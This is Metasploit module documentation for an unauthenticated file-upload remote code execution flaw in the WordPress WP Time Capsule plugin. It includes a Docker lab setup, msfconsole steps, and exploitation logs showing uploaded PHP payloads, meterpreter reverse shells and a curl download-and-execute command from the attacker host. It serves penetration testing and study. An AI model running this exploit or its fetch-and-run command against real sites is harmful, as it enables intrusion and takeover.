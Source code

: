 ## Vulnerable Application

This Metasploit module exploits a Remote Code Execution vulnerability in the WordPress WP Time Capsule plugin, versions <= 1.22.21.
The vulnerability arises from an unauthenticated arbitrary file upload flaw due to improper validation logic in the plugin.

To replicate a vulnerable environment for testing:

1. Install WordPress using the provided Docker Compose configuration.
2. Download and install the [WP Time Capsule plugin v1.22.21](https://downloads.wordpress.org/plugin/wp-time-capsule.1.22.21.zip).
3. Verify that the plugin is activated and accessible on the local network.
4. Register for a WP Time Capsule account and connect the plugin to an external storage system (e.g., Google Drive, Dropbox).
5. Access `wp-admin/admin.php?page=wp-time-capsule-settings#wp-time-capsule-tab-advanced`
to enable the vulnerable functionality by clicking **"Click here to show upload options"**.

## Docker Compose Configuration

```yaml
version: '3.1'

services:
  wordpress:
    image: wordpress:6.3.2
    restart: always
    ports:
      - 5555:80
    environment:
      WORDPRESS_DB_HOST: db
      WORDPRESS_DB_USER: root
      WORDPRESS_DB_PASSWORD: dummy_password
      WORDPRESS_DB_NAME: exploit_market
    mem_limit: 8G
    volumes:
      - wordpress:/var/www/html
      - ./custom.ini:/usr/local/etc/php/conf.d/custom.ini

  db:
    image: mysql:5.7
    restart: always
    environment:
      MYSQL_DATABASE: exploit_market
      MYSQL_USER: root
      MYSQL_PASSWORD: dummy_password
      MYSQL_RANDOM_ROOT_PASSWORD: '1'
    volumes:
      - db:/var/lib/mysql

volumes:
  wordpress:
  db:
```

Create a `custom.ini` file with the following content:

```ini
upload_max_filesize = 64M
post_max_size = 64M
```

## Verification Steps

1. Set up a WordPress instance with the WP Time Capsule plugin (version 1.22.21) using the provided `docker-compose.yml`.
2. Launch `msfconsole` in your Metasploit framework.
3. Use the module: `use exploit/multi/http/wp_time_capsule_file_upload_rce`.
4. Set `RHOSTS` to the IP address or hostname of the target.
5. Configure necessary options such as `TARGETURI`, `SSL`, and `RPORT`.
6. Execute the exploit using the `run` or `exploit` command.
7. If the target is vulnerable, the module will execute the specified payload and return a session.

## Options

No additional options are required beyond the default ones provided in Metasploit.

## Scenarios

### Successful Exploitation Against WordPress with WP Time Capsule 1.22.21

**Setup**:

- Local WordPress instance with WP Time Capsule version 1.22.21.
- Metasploit Framework.

**Steps**:

1. Start `msfconsole`.
2. Load the module:
```bash
use exploit/multi/http/wp_time_capsule_file_upload_rce
```
3. Set `RHOSTS` to the target's IP (e.g., `172.18.0.3`).
4. Configure other necessary options (e.g., `TARGETURI`).
5. Launch the exploit:
```bash
exploit
```

**Expected Results**:

With `php/meterpreter/reverse_tcp`:

```plaintext
msf6 exploit(multi/http/wp_time_capsule_file_upload_rce) > run http://172.18.0.3

[*] Started reverse TCP handler on 192.168.1.36:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking /wp-content/plugins/wp-time-capsule/readme.txt
[*] Found version 1.22.21 in the plugin
[+] The target appears to be vulnerable. WP Time Capsule plugin appears to be vulnerable.
[*] Uploading payload: rJ.php with MIME type: message/http...
[+] Payload uploaded successfully. Parsing response...
[*] Triggering the payload at: http://172.18.0.3/wp-content/plugins/wp-time-capsule/wp-tcapsule-bridge/upload/php/files/rJ.php
[*] Sending stage (40004 bytes) to 172.18.0.3
[+] Deleted rJ.php
[*] Meterpreter session 3 opened (192.168.1.36:4444 -> 172.18.0.3:42434) at 2024-12-11 00:48:18 +0100

meterpreter > sysinfo 
Computer    : 0bd3f3b7102e
OS          : Linux 0bd3f3b7102e 5.15.0-126-generic #136-Ubuntu SMP Wed Nov 6 10:38:22 UTC 2024 x86_64
Meterpreter : php/linux
```

With `cmd/linux/http/x64/meterpreter/reverse_tcp`:

```plaintext
msf6 exploit(multi/http/wp_time_capsule_file_upload_rce) > run http://172.18.0.3

[*] Command to run on remote host: curl -so ./EHsooyPGi http://192.168.1.36:8080/LoPlnjEpeOexZNVppn6cAA; chmod +x ./EHsooyPGi; ./EHsooyPGi &
[*] Fetch handler listening on 192.168.1.36:8080
[*] HTTP server started
[*] Adding resource /LoPlnjEpeOexZNVppn6cAA
[*] Started reverse TCP handler on 192.168.1.36:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking /wp-content/plugins/wp-time-capsule/readme.txt
[*] Found version 1.22.21 in the plugin
[+] The target appears to be vulnerable. WP Time Capsule plugin appears to be vulnerable.
[*] Uploading payload: Ps.php with MIME type: application/zip...
[+] Payload uploaded successfully. Parsing response...
[*] Triggering the payload at: http://172.18.0.3/wp-content/plugins/wp-time-capsule/wp-tcapsule-bridge/upload/php/files/Ps.php
[*] Client 172.18.0.3 requested /LoPlnjEpeOexZNVppn6cAA
[*] Sending payload to 172.18.0.3 (curl/7.74.0)
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3045380 bytes) to 172.18.0.3
[+] Deleted Ps.php
[*] Meterpreter session 4 opened (192.168.1.36:4444 -> 172.18.0.3:50396) at 2024-12-11 01:06:52 +0100

meterpreter > sysinfo 
Computer     : 172.18.0.3
OS           : Debian 11.8 (Linux 5.15.0-126-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
```
